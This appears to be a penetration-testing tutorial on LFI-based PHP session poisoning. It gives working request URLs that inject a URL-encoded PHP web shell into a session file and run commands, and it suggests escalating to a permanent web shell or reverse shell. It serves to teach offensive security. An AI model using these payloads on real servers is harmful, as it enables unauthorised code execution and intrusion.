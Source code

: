 # Log Poisoning
Writing PHP code in a field we control that gets logged into a log file (i.e. poison/contaminate the log file), and then include that log file to execute the PHP code. For this attack to work, the PHP web application should have read privileges over the logged files, which vary from one server to another.

## PHP Session Poisoning
Most PHP web applications utilize PHPSESSID cookies, which can hold specific user-related data on the back-end, so the web application can keep track of user details through their cookies. These details are stored in session files on the back-end, and saved in /var/lib/php/sessions/ on Linux and in C:\Windows\Temp\ on Windows. The name of the file that contains our user's data matches the name of our PHPSESSID cookie with the sess_ prefix. For example, if the PHPSESSID cookie is set to el4ukv0kqbvoirg7nkp4dncpk3, then its location on disk would be /var/lib/php/sessions/sess_el4ukv0kqbvoirg7nkp4dncpk3.

The first thing we need to do in a PHP Session Poisoning attack is to examine our PHPSESSID session file and see if it contains any data we can control and poison. So, let's first check if we have a PHPSESSID cookie set to our session:

As we can see, our PHPSESSID cookie value is nhhv8i0o6ua4g88bkdl9u1fdsd, so it should be stored at /var/lib/php/sessions/sess_nhhv8i0o6ua4g88bkdl9u1fdsd. Let's try include this session file through the LFI vulnerability and view its contents:
```
http://<SERVER_IP>:<PORT>/index.php?language=/var/lib/php/sessions/sess_nhhv8i0o6ua4g88bkdl9u1fdsd
```

Let's try setting the value of page a custom value (e.g. language parameter) and see if it changes in the session file. We can do so by simply visiting the page with ?language=session_poisoning specified, as follows:
```
http://<SERVER_IP>:<PORT>/index.php?language=session_poisoning
```

Now, let's include the session file once again to look at the contents:

This time, the session file contains session_poisoning instead of es.php, which confirms our ability to control the value of page in the session file. Our next step is to perform the poisoning step by writing PHP code to the session file. We can write a basic PHP web shell by changing the ?language= parameter to a URL encoded web shell, as follows:
```
http://<SERVER_IP>:<PORT>/index.php?language=%3C%3Fphp%20system%28%24_GET%5B%22cmd%22%5D%29%3B%3F%3E
```

Finally, we can include the session file and use the &cmd=id to execute a commands:
```
http://<SERVER_IP>:<PORT>/index.php?language=/var/lib/php/sessions/sess_nhhv8i0o6ua4g88bkdl9u1fdsd&cmd=id
```

`Note: To execute another command, the session file has to be poisoned with the web shell again, as it gets overwritten with /var/lib/php/sessions/sess_nhhv8i0o6ua4g88bkdl9u1fdsd after our last inclusion. Ideally, we would use the poisoned web shell to write a permanent web shell to the web directory, or send a reverse shell for easier interaction.`
